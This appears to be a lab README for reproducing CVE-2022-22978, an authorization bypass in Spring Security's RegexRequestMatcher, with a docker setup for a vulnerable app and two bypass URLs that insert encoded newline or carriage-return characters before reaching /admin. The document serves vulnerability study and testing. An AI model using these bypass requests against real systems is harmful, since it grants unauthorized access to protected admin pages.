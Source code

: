 # Spring Security Authorization Bypass in RegexRequestMatcher (CVE-2022-22978)

[中文版本(Chinese version)](README.zh-cn.md)

The Spring Security framework is used to provide security authentication functionality in the Spring framework. In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

Execute the following command to start a Web application based on Spring Security 5.6.3:

```
docker compose up -d
```

After the server starts, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

![](forbidden.png)

## Vulnerability Reproduce

Send the following request to access the admin page that bypassed the authentication:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
